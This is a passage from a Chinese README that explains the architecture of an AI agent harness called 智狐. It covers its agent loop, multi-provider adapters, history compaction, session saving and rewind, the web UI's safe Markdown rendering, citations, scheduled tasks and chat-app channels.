| 无界面模式 | [harness/serve.py](harness/serve.py)、[harness/log.py](harness/log.py)、[harness/webui/lifecycle.py](harness/webui/lifecycle.py) | 服务器上没有浏览器。`harness serve` 不开浏览器就启动调度器和通道，日志按 journald 的习惯写、密钥都遮住，收到 SIGTERM 时干净地退出；网页界面和无界面模式在同一个地方启动、停下这些后台的部分 |
| 后台服务 | [harness/service/](harness/service/)、[harness/instance.py](harness/instance.py) | 在终端里开的智狐，终端一关它也停了。`harness service` 把它交给 launchd（macOS）或者 systemd（Linux）：登录时自动启动、出错退出后自己重启；数据目录的锁上记着是谁占着，再开一个的时候能说清楚是谁挡着（见"在后台一直运行"） |
| 编辑和重新生成 | [harness/rewind.py](harness/rewind.py) | 你打错了字，或者回答不对。最后一轮可以倒回去再跑一遍：倒到哪儿、这一轮哪些事可能改动了东西（要先提醒）、附件怎么原样取回来 |
| 会话的认领 | [harness/claims.py](harness/claims.py) | 同一段会话可能同时开在网页上和聊天软件里。每一轮开始前先"认领"这段会话，两边就不会同时往里写、把对方的那一轮冲掉 |
| 权限 | [harness/permissions.py](harness/permissions.py) | 模型可能出错或被误导。危险操作要你点头 |
| 功能清单 | [harness/capabilities.py](harness/capabilities.py)、[harness/webui/capabilities_api.py](harness/webui/capabilities_api.py) | 工具的名字对你没有意义。一份清单把这段对话的工具换成功能：在不在用、为什么关着、问不问你（拿去问 `permissions.py` 得来的）、在哪儿执行、怎么打开（见[智狐能做的事](#智狐能做的事功能清单)） |
| 只读的命令 | [harness/commands/](harness/commands/) | 每个 `ls` 都问太烦，全部放开又太危险。一个保守的判断：一条 shell 命令是不是只是看。一个只认最简单写法的拆词器（有任何 shell 特殊含义的就不认）、每个程序一条选项的规矩、检查有没有碰到密钥的路径；还有你自己加的"不用问的命令"（见[只读的命令](#只读的命令以及为什么判断得这么保守)） |
| 界面 | [harness/ui.py](harness/ui.py)（终端）、[harness/webui/](harness/webui/)（网页） | 把过程显示给你，把你的输入交给循环 |
| 回复里的 Markdown | [harness/webui/markdown.js](harness/webui/markdown.js) | 模型用 Markdown 回答。一个手写的小渲染器在回复逐字输出的同时把它画成标题、列表、表格、代码块，从不把模型的输出当作 HTML |
| 应用图标 | [harness/webui/manifest.py](harness/webui/manifest.py)、[harness/webui/icons/](harness/webui/icons/)、[tests/make_icons.py](tests/make_icons.py) | 书签、Chrome 的快捷方式、装成的应用都要一张够大的图标和一份网页应用清单，不然只有一个灰底的字。几张 PNG 由无界面的 Chrome 从标志画一次、提交进仓库；服务器只发这几张，而且要带口令 |
| 联网回答的来源 | [harness/citations.py](harness/citations.py)、[harness/webui/page/scripts/citations.js](harness/webui/page/scripts/citations.js) | 联网搜索以后，Claude 会说明每句话出自哪个网页。这些引用按每段回答编号，画成小小的记号，回答末尾列出来源（网页、终端、聊天软件里都有），跟着会话保存；发回给 API 的历史一个字不动 |
| 设置和计价 | [harness/settings.py](harness/settings.py)、[harness/pricing.py](harness/pricing.py) | 记住你选的模型和填的密钥，把 token 换算成钱 |
| 模型目录 | [harness/model_catalog.py](harness/model_catalog.py)、[harness/webui/models_api.py](harness/webui/models_api.py) | 光看模型的名字，不知道它能做什么、多少钱。一份由程序算好的目录：每一家有没有密钥（只露最后 4 位）、能选哪些模型、每个模型能做什么、价格（来自 `pricing.py`）、换过去会怎样；网页上换模型的面板（`POST /api/model/catalog`）和终端的 `/model` 都只是照着它画 |
| 花费账本和预算 | [harness/ledger.py](harness/ledger.py)、[harness/budget.py](harness/budget.py) | 内存里的估算一重启就没了。每调用一次模型就按那一刻的价格记一笔，看得到一天、一个月花了多少；定了每月预算的话，超过时提醒一次 |
| 导出 | [harness/export.py](harness/export.py) | 数据都在一台电脑的一个文件夹里。点一下就打成一个 zip，密钥不带出去 |
| 多语言 | [harness/i18n.py](harness/i18n.py)、[harness/locales/](harness/locales/) | 界面上的话有中文、英文、西班牙语三种，网页和终端共用一份翻译表 |
| 组装 | [harness/app.py](harness/app.py)、[harness/cli.py](harness/cli.py)、[harness/config.py](harness/config.py) | 把上面这些拼起来，读取配置 |
| 系统之间的差别 | [filelock.py](harness/filelock.py)、[pathnames.py](harness/pathnames.py)、[winacl.py](harness/winacl.py)、[winjob.py](harness/winjob.py)、[console.py](harness/console.py)、[exits.py](harness/exits.py)、[machine.py](harness/machine.py)、[tools/shell.py](harness/tools/shell.py)、[browser/chrome.py](harness/browser/chrome.py)、[service/windows.py](harness/service/windows.py) | macOS、Linux、Windows 锁文件、写路径、保护文件、结束进程树、给输出编码、执行命令的办法都不一样。每一处差别只放在一个小模块里（或者用到它的那个模块的一个函数里），别处只调用它 |

建议的阅读顺序：`agent.py` → `tools/base.py` → `tools/todo.py` → `permissions.py` → `providers/base.py`，其余的按兴趣看。

这些部分是这样连起来的：



### 循环

```
你说了一句话
  └─► 把【系统提示词 + 工具说明书 + 全部对话历史】发给模型
        ├─ 模型回复文字            → 显示给你，这一轮结束
        └─ 模型说"我要调用工具 X"  → 检查权限 → 执行 → 把结果追加进历史 → 再发给模型（循环）
```

"下一步做什么"每次都由模型决定，循环只负责照办。这是 agent 和普通程序的区别：
普通程序的步骤是写死的，agent 的步骤是模型临场决定的。

一轮对话里，各方之间是这样来回的：



你对 Claude 说"提醒我下周五交报告"之后，对话历史会变成下面这样（有删减）。
模型并没有真的"调用"什么，它只是输出了一段格式固定的内容，说自己想调用 `todo_add`；
harness 看到后去执行，再把结果作为一条新消息放回历史里：

```json
[
  {"role": "user", "content": [
    {"type": "text", "text": "<context>当前时间：2026-11-20 14:03 星期五</context>"},
    {"type": "text", "text": "提醒我下周五交报告"}
  ]},
  {"role": "assistant", "content": [
    {"type": "thinking", "thinking": "下周五是 11 月 27 日……", "signature": "..."},
    {"type": "tool_use", "id": "toolu_1", "name": "todo_add",
     "input": {"title": "交报告", "due": "2026-11-27"}}
  ]},
  {"role": "user", "content": [
    {"type": "tool_result", "tool_use_id": "toolu_1", "content": "{\"id\": 1, \"title\": \"交报告\", ...}"}
  ]},
  {"role": "assistant", "content": [
    {"type": "text", "text": "记下了：下周五（11 月 27 日）交报告。"}
  ]}
]
```

有一条规矩贯穿始终：**历史只在末尾追加，前面的内容从不修改**。
原因写在 [harness/providers/claude.py](harness/providers/claude.py) 里 `AnthropicBackend.__init__` 的注释中，简单说就是改了前面会让缓存失效（变贵），
还会让模型之前的思考内容无法通过 API 的校验（请求被拒绝）。
唯一的例外是 GPT、Gemini、DeepSeek 的对话太长时的压缩，见[对话太长了怎么办](#对话太长了怎么办压缩历史)。

### 一个循环，多家模型

上面那段历史是 Claude 的格式。别家的格式不一样，但循环（`agent.py`）并不关心，
它只要求每一家的适配层都能做这几件事（定义在 [harness/providers/base.py](harness/providers/base.py)）：

| 方法 | 作用 |
|---|---|
| `add_user` | 往历史里追加一条用户消息 |
| `step` | 调用一次模型，边收边显示，把回复追加进历史，并告诉循环模型想调用哪些工具 |
| `add_tool_results` | 把工具的执行结果追加进历史 |
| `mark` / `rollback` | 记下历史的位置 / 退回到那个位置（出错或被拒绝时撤销这一轮） |

适配层只有两个：[claude.py](harness/providers/claude.py) 用 Anthropic 的原生接口；
[openai_compat.py](harness/providers/openai_compat.py) 用 OpenAI 定下的 Chat Completions 格式，
GPT、Gemini、DeepSeek 都支持这套格式，只是服务器地址不同，所以一份代码服务三家。两者的主要差别：

| | Claude | GPT、Gemini、DeepSeek |
|---|---|---|
| 系统提示词 | 单独的参数 | 历史里的第一条消息 |
| 工具调用 | 回复里的一个"内容块" | 助手消息上的 `tool_calls` 字段，参数是一段 JSON 文本 |
| 工具结果 | 所有结果合在一条消息里 | 每个结果单独一条消息 |
| 联网搜索 | 有，在 Anthropic 的服务器上执行 | 没有 |
| 对话太长时 | 由 API 在服务器上把较早的内容压缩成摘要 | 由智狐请模型写摘要，换掉较早的内容（见下一节） |
| 缓存 | 由我们在请求里标记 | 各家自动处理 |

要接入另一家支持 OpenAI 格式的厂商，在 [harness/providers/\_\_init\_\_.py](harness/providers/__init__.py) 的 `PROVIDERS` 里加一项就够了。

### 对话太长了怎么办：压缩历史

每一轮都要把整段历史重发一遍，所以对话越长，每一轮越贵；长到超过模型一次能读的上限（上下文窗口），
请求就会被拒绝，这段对话就聊不下去了。办法是压缩：把较早的内容换成一份摘要，只留最近几轮的原文。

Claude 的压缩由 Anthropic 的 API 在服务器上完成（请求里带着 `context_management`，见 [claude.py](harness/providers/claude.py)），
我们这边的历史仍然只追加。OpenAI 格式的接口没有这个功能，所以 GPT、Gemini、DeepSeek 的压缩由智狐自己做，
代码在 [harness/providers/compaction.py](harness/providers/compaction.py)：

1. **什么时候压缩。** 每次请求回来，用量里写着这一次输入和输出一共多少 token，也就是这段对话现在占了多大的上下文。
   它超过模型上限的 70%，下一次请求之前就先压缩。剩下的 30% 要装得下下一条消息、工具的结果和模型的回复。
2. **切在哪里。** 切口只落在两轮之间，也就是你的某一条消息前面。工具调用和它的结果总在同一轮里，所以永远在切口的同一边，
   历史里不会出现"有调用、没结果"的情况（API 会拒绝这样的请求）。最近两轮（正在进行的这一轮也算）原样保留。
3. **请谁写摘要。** 就是正在对话的那个模型。切口之前的那一段原样发过去，末尾加一条指令请它写摘要（指令写在 `compaction.py` 里）。
   原样发是为了命中缓存：这一段之前每一轮都发过，开头一字不差，按低得多的缓存价计费。
   这次调用的用量和平时一样记下来，算进估算的费用里。
4. **换成什么。** 系统提示词，一条装着摘要的用户消息和一条助手的确认（这样历史仍然是你一句、它一句；有的模型不接受连着两条用户消息），
   再接上最近几轮的原文。被压缩的那一段里如果有附件，原件不再保留，只留一句话说你发过哪些文件。
   之后又太长时再压缩一次，上一份摘要会被合进新的摘要里。

这是"历史只在末尾追加"这条规矩唯一的例外，所以边界划得很清楚：只有 OpenAI 格式的适配层这样做；
只换切口之前的部分，系统提示词和最近几轮一个字不动；只在两次请求之间做。历史因此变短了，`mark` 记下的位置也跟着换算，
出错时撤回这一轮，撤掉的仍然正好是这一轮。代价是一次缓存失效：压缩之后的第一次请求开头变了，要按原价付一次，
之后新的开头又会被缓存起来。换来的是历史不再无限变长。

界面上会出现两句提示：一句说正在请模型写摘要，做完后另一句告诉你之后每一轮大约少发多少 token。
写摘要失败了（比如网络断了、服务器太忙），提示里会说明原因，这一轮照常进行，下一轮再试。
保存的会话里，`messages`（发给模型的那一份）是压缩过的，重新打开时接着摘要聊；`events`（页面上显示过的那一份）一点不少，
所以重放和搜索看到的仍然是完整的对话。

能调的数都在 [harness/config.py](harness/config.py) 里：`ENABLE_OPENAI_COMPACTION`（改成 `False` 就不压缩）、
`CONTEXT_WINDOWS`（各个模型的上限，DeepSeek 的两个模型是 100 万 token）、`DEFAULT_CONTEXT_WINDOW`
（不在表里的模型按 12.8 万 token 算，宁可早一点压缩）、`COMPACTION_THRESHOLD`（0.7）、`COMPACTION_KEEP_TURNS`（2）。

### 会话是怎么保存和恢复的

模型自己什么都不记得，"接着上次聊"靠的全是 harness：把上次的对话历史存下来，下次请求时一起发过去。
每段会话是 `data/conversations/` 里的一个 JSON 文件，里面有两份内容：

| 内容 | 给谁用 | 说明 |
|---|---|---|
| `messages` | 模型 | 发给模型的对话历史，按那一家的格式原样保存。打开会话时交还给适配层（`restore`） |
| `events` | 页面 | 界面上显示过的内容。打开会话时重新发给浏览器，页面照着画出来 |

附件在 `events` 里只有一份概要：名字、大小、一张小缩略图，和它的原件在 `data/media/` 里的编号（内容的 SHA-256）。
完整的内容在 `messages` 里（模型读的是它），也在多媒体库里。多媒体库的索引和搜索一样，是在读入、保存会话的时候顺手建的，
所以打开"多媒体"不用把所有会话文件再读一遍。

存两份是因为它们不一样：模型看到的历史里有思考内容的签名、每个工具调用的编号、厂商各自的消息结构，
这些页面用不上，但发回给 API 时一个字都不能差；页面上显示的确认卡片（你点了允许还是拒绝）、
"已中断"这样的提示文字，又是模型看不到的。

Claude 的历史必须和当初一字不差地发回去，否则它之前的思考内容通不过校验。如果你换了工作目录再打开旧会话，
系统提示词已经变了，那些思考内容就对不上了。程序在请求里带了一个参数，让 API 遇到这种情况时丢掉对不上的思考内容，
而不是拒绝请求，所以旧会话仍然能接着聊，只是模型看不到自己当时是怎么想的。

### 编辑最后一条消息、重新生成

两件事是同一个动作：把对话倒回去一点，再跑一遍。"重新生成"倒到你最后一条消息之后：这条消息原样留着，
连同当时的时间说明和附件，所以新的请求开头和上一次一字不差（缓存照样命中）；模型这一轮做的（思考、回答、
工具调用和它们的结果）全部去掉。"编辑"倒到你最后一条消息之前，把改过的那条当作新的一轮发出去。

只能倒最后一轮，因为对话历史只在末尾追加（见上面）。改了中间的某一轮，它后面的缓存全部作废；Claude 后面的每一块
思考内容都带着签名，签名绑着它前面的全部内容。从末尾去掉一截，留下的每一块前面的内容都不变。

倒到哪儿：每一轮开始时，网页界面把适配层在历史里的位置（`Backend.mark()`）记在这一轮的 `user` 事件上，跟着会话一起存下来。
GPT、Gemini、DeepSeek 的位置从对话开始数，被压缩掉的也算在内；会话文件里另外记着压缩掉了多少条（`dropped`），
所以重新打开、重启之后，记下的位置照样对得上。倒回去之前先问适配层：这个位置上还是不是这一轮的那条用户消息（`Backend.turn_at`）：

- 是：就倒到这里。
- 不是，而历史正好到这里为止：这一轮在模型答出第一步之前就失败了，消息已经撤回（页面上还看得到它）。
  "重新生成"就是再发一次，附件从多媒体库里取回原件。
- 不是，后面还有：这一轮已经压缩进了摘要，倒不回去，按钮上写着为什么。这个功能之前存的会话、定时任务自己跑的那一轮
  （发给模型的指令和页面上显示的不一样）也倒不回去。

做过的事撤销不了：倒回去的只是对话。这一轮执行过命令、改过文件、调用过 MCP 工具、操作过整台电脑、在浏览器里点击或输入过
（自己做的、交给子 Agent 做的都算），页面会把这些事列出来问你一次。操作过整台电脑、浏览器的，确认里另外单独写一句：
在别的程序里做过的、在网页上已经提交和发出去的，撤不回来。只是"看"的不算（截图、读页面、打开一个网址；整台电脑那边只有截图、
放大看、问鼠标在哪儿、等一会儿算"看"）。你拒绝了的不算；智狐自己的待办、文件、记忆、定时任务工具出错了的也不算：
它们先把一切查好才写，出错就是什么都没改。认不出来的工具一律算"可能改动了什么"。

花掉的钱：已经花了就是花了。花费账本一笔不少地留着，信息栏里这段对话的用量和费用也不减；上下文的大小等下一次请求时更新。

页面上：服务器把历史和保存的事件一起截断，马上存一次盘（搜索和多媒体库跟着更新），再发一个 `reset`、把留下的事件重放一遍，
和打开一段会话是同一个做法。开着的每个标签页都原地重画，不用刷新。请求里写明是哪段会话的哪一轮，落后的标签页会被拒绝，
不会倒回别的内容；正在改的标签页，没发出去的字会放回它的输入框。

### 界面是怎么做成三种语言的

界面上的每一句话都用中文写在它出现的地方，外面包一层 `t()`，这句中文同时就是翻译表里的"键"。
翻译表在 [harness/locales/](harness/locales/) 下，一种语言一个 JSON 文件，内容是 `{"中文原文": "译文"}`：

```python
t("已中断。")                                                        # 英文界面下是 "Stopped."
t("已换成 {provider} · {model}。对话继续。", provider="DeepSeek", model="deepseek-flash")
```

查不到译文的照原样显示中文，所以漏翻一句不会出错，只会在那一处露出中文。
[tests/test_i18n.py](tests/test_i18n.py) 会把页面和程序里所有交给 `t()` 的话找出来，检查每一句都有英文和西班牙语的译文、
`{provider}` 这类要填的空一个不少。新加了一句话却没有翻译，测试就会失败，并列出是哪几句。

网页和程序用的是同一份表：助手程序发出页面时把表塞进页面里，页面自己的话由页面翻译。
换语言时页面不刷新，因为每一句画在页面上的话都记着自己的原文，换语言时照着原文重新查一遍、就地换掉。
程序发给页面的话（确认卡片上的说明、各种提示）也一样：除了译好的文字，还带着原文和填进去的值，
所以已经显示出来的这些话也能跟着换，保存下来的会话以后换了语言再打开也是。

哪些不翻译：模型的回答（它用什么语言回答，取决于你用什么语言和它说话）、你说的话、会话的标题、
工具的输出（比如命令打印出来的内容）。工具的说明书和工具返回给模型的话也保持中文，那些是写给模型看的，它都读得懂。
品牌名"智狐"在三种语言里都不变。

### 会话搜索是怎么做的

搜索要解决两个问题：找得快，找得到。代码都在 [harness/search.py](harness/search.py) 里，没有用任何搜索库。

找得快：不能每敲一个字就把所有会话文件重新读一遍。第一次用到会话列表或搜索时，程序要把每个会话文件读一遍来列出标题，
这时顺便把里面值得搜的文字抽出来放在内存里，这就是"索引"（终端版用不到会话列表，所以从来不建）。之后会话保存、改名、删除时索引跟着更新，
搜索只在内存里进行。

收进索引的有：标题、你说的话、助手的回复、思考过程、每次工具调用的那一行摘要（运行的命令、读写的文件路径、
联网搜索的关键词）、每个工具结果开头的 600 个字符。没有收的：助手写进文件的具体内容、出错和"已中断"这类提示。

找得到：人记得的往往只是个大概，所以匹配分三档，越严格的排得越靠前：

| 档 | 规则 | 例子 |
|---|---|---|
| 原样包含 | 关键词原样出现。不分大小写，全角半角算一样 | `HARNESS` 找到 `harness` |
| 相近的词 | 5 个字母以上的英文单词允许敲错一两个字母。只在这个词哪儿都原样找不到时才启用 | `hraness` 找到 `harness` |
| 隔字包含 | 每个字按顺序都出现，中间可以隔几个字。英文要 4 个字母以上，而且不跨单词 | `周五报告` 找到"周五下午交报告" |

多个关键词要全部满足，先后顺序不限，也可以分别出现在不同的地方。排序时先看档：每个关键词都原样找到的排最前，
其次是靠"相近的词"找到的，用到"隔字包含"的排最后。同一档里，标题里的命中排在内容里的前面，
你说的话排在工具输出前面；一样相关时新的会话在前。

页面上的搜索结果里标出来的位置是服务器算好的。这里有个容易踩的坑：浏览器里的字符串按 UTF-16 计数，
一个表情符号占两格，而 Python 里只占一格，所以服务器发给页面之前要把位置换算一遍，否则文字里一有表情，
后面标的位置就全偏了。

### 一个循环，两种界面

终端版和网页版用的也是同一个循环。循环只要求界面提供这几个方法：

| 方法 | 什么时候被调用 |
|---|---|
| `thinking` / `text` | 模型每生成一小段思考或回答 |
| `tool_call` / `tool_result` | 一个工具开始执行 / 执行完毕 |
| `confirm` | 需要用户点头，循环停在这里等答复 |
| `info` / `notice` | 有一句提示要告诉用户 |

终端版（`ui.py`）把这些调用直接变成屏幕上的文字。网页版多绕一步，因为循环和浏览器不在同一个程序里：

```
agent 循环 ──调用──► WebUI ──事件──► 本地服务器 ──推送──► 浏览器里的页面
                    (webui/ui.py)   (webui/server.py)     (webui/page/)
```

`WebUI` 把每次调用记成一条"事件"存进日志，服务器把事件推送给浏览器，页面收到后画出对应的内容。
你在页面上点"允许"或"停止"，则是浏览器向服务器发一个请求，服务器再转告 `WebUI`。
页面自己不保存对话，所以刷新后服务器把日志重发一遍，页面就能照着重新画出来。

发给浏览器的页面是一个自给自足的 HTML：它的安全策略只运行带着一次性 `nonce` 的内联 `<script>` 和 `<style>`，
不加载任何外部的东西。但这不等于它得写成一个文件。页面的源码在 [harness/webui/page/](harness/webui/page/) 里，
一个文件只讲一件事：`index.html` 是骨架（标记，外加几行占位符），`styles/` 里是按界面的部分分开的样式
（`tokens.css`、`chat.css`、`memory.css`、`skills.css`……），`scripts/` 里是按小节分开的页面脚本
（`i18n.js`、`motion.js`、`memory.js`、`tasks.js`、`browser.js`……）。一节长到几百行以上，就按它自己的小节拆成几个
同一前缀的文件：`skills.js` 是 Skill 一页的总说明、共用的状态和小工具，后面接着 `skills-list.js`、`skills-detail.js`、
`skills-add.js`、`skills-review.js`（`agents-*`、`mcp-*`、`channels-*`、`tasks-*` 也一样）。[page/\_\_init\_\_.py](harness/webui/page/__init__.py)
里的清单按顺序列出这些块，服务器启动时把它们拼回同一个页面（演示每次刷新都重新拼）。顺序很要紧：样式里两条一样具体的规则，
后写的盖过先写的，所以 `reduce-motion.css` 排在最后；脚本的各块都放在同一个函数里、共用一个作用域，
所以大家都要用的 `t()`、`el()`、`play()`、`calm()` 排在前面。新加一块就是加一个文件、在清单里加一行；
文件漏列了或者列了两次，测试会失败。

应用图标是唯一一样由浏览器自己去取、不经过页面脚本的东西：判断这个页面能不能装成应用、做快捷方式的时候，它要读一份
网页应用清单，再下载清单里列出的图标。所以它们得是真的地址：`/manifest.webmanifest` 和 `/icons/<名字>`
（[harness/webui/manifest.py](harness/webui/manifest.py)）。两样都要带口令，和页面一样检查 Host 和 Origin。
图标的名字拿去查一张固定的名单（智狐自带的六张 PNG），从不拼成路径，所以请求里写什么都碰不到别的文件。
安全策略也只多放行了这几个地址：`manifest-src` 写的是清单自己的地址，`img-src` 在 `data:` 后面逐个写出这六张图的地址。
CSP 里带路径的来源只匹配那一个路径（`?` 后面的口令不算），比 `'self'` 窄。为什么图标也要放行：Chrome 下载清单里的图标时
同样按页面的 `img-src` 检查，不放行，它就说"找不到合适的图标"，装不成应用。清单的 `start_url` 带着口令，
从快捷方式一点就进到页面里；`id` 只是一个 `/`，换了口令，浏览器也还认得是同一个应用。几张 PNG 由无界面的 Chrome
从 [docs/assets/logo.svg](docs/assets/logo.svg) 画一次、提交进仓库（`uv run python tests/make_icons.py`，加上
`--preview 某个文件夹` 还会存一张对照图）：透明底的给标签页、书签和任务栏；maskable 的那张铺着奶油色的底，狐狸整个在中间的安全区里，
macOS Sonoma 以后的 Chrome 拿它当程序坞里的图标。应用窗口的标题栏是 `<meta name="theme-color">` 的颜色，它跟着你在页面里选的外观走，不跟系统走。

页面上的动画只给"此刻正在发生"的内容：新来的消息会浮现出来，而刷新页面、打开旧会话时重放出来的内容直接显示，
不会把几百条消息的入场动画挨个播一遍。页面怎么分辨这两种内容？服务器在补发完已有的事件之后，会多发一个名叫
`synced` 的标记，标记之后的才是实时的事件；打开旧会话时，则是从"清空页面"的事件到下一个"状态"事件之间算重放。

页面里所有会动的东西都只改两样属性：位置和缩放（`transform`）、透明度（`opacity`）。浏览器可以把这两样交给
专门的合成线程去做，不用重新排版，所以即使脚本正忙着处理模型不断吐出来的文字，动画也不会卡。

要减少动画的时候（系统开了"减少动态效果"，或者你在外观面板里选了"减少"），所有动画都会关掉，内容直接出现。
页面不是直接去查系统设置，而是在画出页面之前，把系统设置和你的选择合在一起算一次，结果写在 `<html data-motion>`
上，样式和脚本都只看这一处。这样你选的"完整"才能盖过系统设置，而且刷新页面时不会先播一段动画、再突然停下。
深浅色也是同样的做法（`<html data-theme>`）。

### 回复里的 Markdown 是怎么画的

模型喜欢用 Markdown 回答，代码、列表和表格画出来要好读得多。页面不能加载现成的 Markdown 库（它不加载任何外部资源，
离线也要能用），完整的库又有几千行，所以智狐自己写了一个小的：[harness/webui/markdown.js](harness/webui/markdown.js)。
它只做聊天回复里用得到的那部分：CommonMark 的大部分，加上 GitHub 的表格、任务列表和删除线。服务器发页面时把这个文件
原样填进页面，和页面自己的脚本用同一个一次性的 `nonce`，所以安全策略和原来一样严格。

**安全。** 渲染器从头到尾不拼接、也不解析 HTML。它先把文字解析成普通的对象（语法树），再用 `createElement`、
`createTextNode` 一个个建出元素，所以回复里的 `<script>`、`onerror=` 只会显示成文字。链接只认 `http`、`https`、`mailto`，
一律在新标签页里打开、带 `rel="noopener noreferrer"`；别的地址（`javascript:`、`data:`、`file:`、相对路径）按原文显示成文字。
图片一律不加载：只显示说明文字和网址，网址安全的话可以点开。

**为中文做的两处改动。** 段落里的单个换行就是换行（CommonMark 会把它当成空格；以前的回复是纯文本，靠换行排版，
中文句子之间也不该多出空格）。判断 `**` 能不能开始、结束加粗时，汉字和全角标点算作标点，否则中文里最常见的
`**注意：**这一点` 永远加粗不了。

**逐字输出。** 回复是一小段一小段到的，每来一段就把整段回复重新解析一遍，回复越长越慢。所以页面一帧最多画一次，
渲染器把文字分成两部分：已经"定稿"的块（它后面已经开始了一块新内容，而且新内容的第一行已经完整）画好之后再也不碰，
下次解析从它后面开始；只有最后一两块每次重新解析，和已经画好的对照，只重建变了的部分：还没写完的代码块把新来的字接在
后面，还在变长的长列表、长表格只重新解析最后一项、最后一行。最后一行要是只写了一个记号（`-`、`1.`、```` ``` ````、
网址还没写完的链接、可能是表头的那一行），先不画，等看得出它会变成什么再画，免得原始的记号在屏幕上一闪而过。
重放的旧内容（刷新页面、打开旧会话）直接按最终的样子画一次，不播动画。

搜索照样能用：搜索结果来自 Markdown 原文，命中的原文里夹着页面上看不到的记号（`**`、`` ` ``）时，页面先去掉这些记号
再去对；只在原文里有的命中（比如链接的网址）就滚到那条回复。终端界面照原样显示 Markdown 原文。

### 联网回答的来源

Claude 根据联网搜索回答时，API 在每一处引用的地方把回答切开，切成一串连着的 `text` 块，被引用的那一块带一个
`citations` 列表：网页的地址、标题、被引用的原文（最多 150 个字），还有一个要原样发回去的 `encrypted_index`。
流式输出时每一条引用是一个 `citations_delta`，SDK 把它们攒在那个块上，所以智狐在块结束时读它们
（[harness/providers/claude.py](harness/providers/claude.py)）。Anthropic 要求把回答给人看时带上原始来源，所以现在不再丢掉：

- **两份，有一份不动。** 对话历史（`messages`）里的块和 API 给的一模一样，`citations` 也在，下一次请求的开头一个字节都不差，
  缓存照样命中。给人看的那一份由 [harness/citations.py](harness/citations.py) 另外抄：只要 `http`、`https` 的地址，
  标题和原文洗过、截短；一段回答里同一个网页只编一个号，按第一次出现的先后编。
- **每一处引用一个事件。** 网页界面里，每一处被引用的文字后面紧跟一个 `cite` 事件：
  `{"type": "cite", "marks": [{"n": 1, "quote": "…"}], "sources": [{"n": 1, "url": "…", "title": "…", "site": "…"}]}`。
  `marks` 是这一处要标的编号；`sources` 只列这段回答里第一次出现的网页。编号由程序算好，页面只管画。
  事件跟着会话保存，以后打开旧会话，来源照样在。
- **怎么画。** 页面里回复的原文不动（搜索跳转和"复制"都用它），交给 Markdown 渲染器之前，在每一处引用的地方插一个私用的记号，
  渲染器认出它、请页面建出元素。记号跳过末尾的空格和换行，从不放进代码和链接文字里，所以不会弄坏代码块的围栏、
  也不会让表格多出一列。编号是样式画出来的，不是页面上的字：选中一句话复制、搜索这句话，都不会被几个数字打断。
- **"复制"** 复制的是纯文字：被引用的话后面写上 `[1]`，末尾附上每个来源的标题和完整网址，贴到别处也知道每句话出自哪里。
- **终端和聊天软件** 用文字表示同样的东西：被引用的话后面写上 `[1]`，最后列一小段"资料来源："，写着标题和网站
  （终端在下一行写上完整网址，聊天软件把标题做成链接）。聊天里太长的消息照常按平台的上限拆开。
- **以前存下的、被切碎的回答。** 修好"连着的文字块算同一段"之前，这些块每一块后面都跟着一个 `block_end`，所以存下来的会话
  重放时是一堆很小的段落（". Anuncia"、"," 各占一行，每段一个"复制"）。现在 `block_end` 只是让回复停一下：
  下一个事件还是文字的话，就是同一段；别的事件（工具调用、提示、你的下一条消息、这一轮结束）才让它结束。
  实时输出走的是同一段代码，所以 `pause_turn` 之后接着写完的回答，实时看和刷新以后看都一样。

GPT、Gemini、DeepSeek 没有联网搜索，它们的回答不会带来源。

### 定时任务：没人看着的时候怎么运行

一个定时任务就是存下来的一条指令加一个时间表（[harness/tasks.py](harness/tasks.py)）。运行它用的还是同一个循环，
只有三件事另外处理（[harness/webui/scheduler.py](harness/webui/scheduler.py)）：

1. **什么时候。** 调度线程睡到下一个任务该运行的时候，但一次最多睡 30 秒，这样改了系统时间、电脑从睡眠中醒来，
   都能很快发现；任务一有变化也会把它叫醒。下一次的时刻是按本地时间在日历上算出来的，而不是加上 24 小时，
   所以夏令时前后"每天 9 点"仍然是墙上的 9 点。每个任务的下一次时刻存在 `data/tasks.json` 里，
   下次启动时发现它已经过去了，就知道错过了。
2. **同时进行。** 任务不拿你对话用的那把锁：它跑的时候你照常聊天、换模型、打开会话，几个任务也可以一起跑。
   能这样做，是因为凡是"会被停下"的东西，每次运行都有自己的一份（`App.unattended_agent`）：自己的 shell，
   停下一次运行只结束它自己的命令，对话里的"停止"碰不到任务；自己的 MCP 调用（每次运行的工具快照把调用记在它自己名下，
   "停止"只取消它自己的）；自己的浏览器标签页（这次运行结束时关掉）；自己的事件日志和确认。共用的只有存在磁盘上的东西（待办、任务、记忆、会话、工作目录里的文件），
   它们各自有锁，每次改动一口气做完，两边同时改也不会互相冲掉。同时最多跑 `MAX_PARALLEL_TASKS` 个
   （3 个，在 [config.py](harness/config.py) 里），再多的排队，显示"排队中"，有空位就开始。同一个任务不会同时跑两次。
3. **没人看着。** 每次运行用一个单独的 `Agent`，适配层是新建的，历史是空的，事件也记在它自己的日志里
   （另一个不推给页面的 `WebUI`），所以它写不进你正在看的那段对话。它用的权限是一份按*这个任务自己的那一档*设好的副本
   （`Permissions.unattended(mode)`），不是你在对话里选的那一档。走到需要批准的一步时，循环和平常一样停在 `confirm` 上等，
   这个正在等的确认放进页面的状态里，你可以在任务那里答复它。

进度和别的东西一样，通过同一个 `state` 事件送到页面上：文字逐字输出时最多每秒四次，开始运行、停下来等你批准、
运行结束时马上发一次。被停下的运行照样给每个工具调用补上结果（还是 `Agent._run_tools` 里的那个 `finally`），
所以它存下来的会话和别的会话一样可以接着聊。

### 聊天通道：在聊天软件里和智狐说话

聊天通道是进到同一个循环的又一条路。以 Telegram 为例（[harness/channels/](harness/channels/)）；别的平台只是"消息怎么来"不一样
（见下面的[六个平台，三种收消息的办法](#六个平台三种收消息的办法)）：

```
你的手机 ──消息──► Telegram 的服务器 ◄──长轮询（getUpdates）── 智狐（你的电脑或服务器）
                                                                │
       ┌────────────────────────────────────────────────────────┘
       ▼
是主人吗（配对过的那个账号）？  不是 → 不理  ·  是 → 在这个聊天的会话里跑一轮 agent 循环
       │
       ▼
写完一段就发回聊天里；要执行命令、改文件时，先发一条带"允许 / 拒绝"按钮的消息
```

1. **不需要公网地址。** 是智狐去问 Telegram 有没有新消息，而不是等 Telegram 来找它：发一个 HTTPS 请求（`getUpdates`），
   Telegram 把它挂住最多 25 秒，一有消息马上回答。智狐下次带回去的 `offset` 意思是"这之前的都处理完了"，它存在
   `data/channels.json` 里，所以重启以后不会把同一条消息处理两次。家里的电脑、防火墙后面的服务器都能用，不用开端口，
